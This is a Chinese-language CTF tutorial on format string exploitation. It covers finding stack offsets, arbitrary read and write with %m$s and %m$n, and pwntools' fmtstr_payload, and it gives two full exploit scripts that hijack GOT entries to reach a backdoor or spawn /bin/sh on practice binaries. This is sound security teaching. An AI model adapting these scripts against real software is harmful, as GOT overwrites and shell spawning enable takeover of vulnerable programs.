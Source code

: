 # pwn入门--格式化字符串

## 确定偏移：

### 32位：

1. gdb中格式化字符串在栈上的位置的，**左边序号值** 就是偏移。

1. 先到printf函数的调用位置：

   ![image-20240710120200274](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407101202735.png)

2. 观查栈上的数据：

   ![image-20240710120155192](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407101201516.png)

 ### 64位：

1. gdb中格式化字符串在栈上的位置的，**左边序号值+6** 就是偏移（因为64位**前6个参数**要用**寄存器rdi,rsi,rdx,rcx,r8,r9**来传参，其余才用栈传参）。

1. 先到printf函数的调用位置：

   ![image-20240710120438926](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407101204237.png)

2. 观察寄存器，和栈：

   ![image-20240710122358218](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407101224181.png)

## 任意地址读：

1. 主要使用 **%m$s** ，来实现 **任意地址** 读取数据：

   * 先利用第一步，确定格式化字符串的**偏移为m**。
   * 然后确定要 **读取** 的数据地址：**p** (0x80504) ,
   * 最后构造，以字符串的形式输出地址为0x80504的值（%s会将0x80504当成地址去解析）：

   ```python
   payload = p64(0x80504)+b"%m$s"
   ```



## 任意地址写：

1. 主要使用 **%m$n** ，来实现 **任意地址** 写入数据。

2. 使用工具 **fmtstr_payload** 快速钩爪格式化字符串：

   * 先利用第一步，确定格式化字符串的**偏移为m**。
   * 然后确定要 **写入** 的数据地址：**p** (0x80504) 。
   * %n会将printf函数**已经输出的字符个数num**，写入到地址0x80504处：

   ```python
   payload = p32(0x80504) + b"a"*(num-4) + b"%m$n"
   ```

   * 使用 **fmtstr_payload** 工具快速构造;

     ```python
     payload = fmtstr_payload(offset,{write_addr:write_data},numbwritten=0)
     ```

     **offset** ：格式化字符串的偏移

     **write_addr** ：要写入的地址

     **write_data** ：要写如的值

     **numbwritten** :print**f已经输出**的字符个数

## 例题1：

1. 挟持got表

``````python
from pwn import *
# from LibcSearcher import *
context(os='linux', arch='i386', log_level='debug')

p=remote("node5.anna.nssctf.cn",24575)
# p = process("./pwn")
elf = ELF("./pwn")

read_got = elf.got["read"]
success("read_got==>"+hex(read_got))
backdoor = elf.symbols["backdoor"]
print(hex(backdoor))
payload = fmtstr_payload(11,{read_got:backdoor})
p.sendline(payload)
p.sendline(b'cat flag')
p.interactive()


``````

## 例题2：

地址：[BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#axb_2019_fmt32)

注意点：格式化字符串在**栈上对齐**。

1. 题目只有一个格式化字符串，没有栈溢出，所以只能考虑挟持got表：

   ![image-20240710172120217](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407101721507.png)

2. gdb调试，确定格式化字符串偏移，注意栈对齐：

   ![image-20240710172537479](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407101725012.png)

3. 确定格式化字符串已经输出的字符个数：

   ![image-20240710172833648](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407101728747.png)

4. EXP：

   ```python
   from pwn import *
   from LibcSearcher import *
   context(os='linux', arch='i386', log_level='debug')
   
   # p=remote("node5.buuoj.cn",26396)
   p = process("./pwn")
   elf = ELF("./pwn")
   puts_addr = elf.got["puts"]
   strlen_addr = elf.got["strlen"]
   
   p.recv()
   payload = b'a'+p32(puts_addr)+b"%8$s"
   p.sendline(payload)
   p.recvuntil(p32(puts_addr))
   addr = u32(p.recv(4))
   success("puts_addr==>"+hex(addr))
   
   libc_addr = addr-0x5fcb0
   sys_addr = libc_addr+0x3adb0
   success("libc_addr==>"+hex(libc_addr))
   success("sys_addr==>"+hex(sys_addr))
   
   payload = b"a" + fmtstr_payload(8,{strlen_addr:sys_addr},10)
   print(payload)
   p.sendline(payload)
   p.sendline(b';/bin/sh')		#切割前面的字符，形成system("/bin/sh")
   p.sendline(b'cat flag')
   p.interactive()
   ```

   成功拿到本地flag：

   ![image-20240710172924720](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407101729867.png)

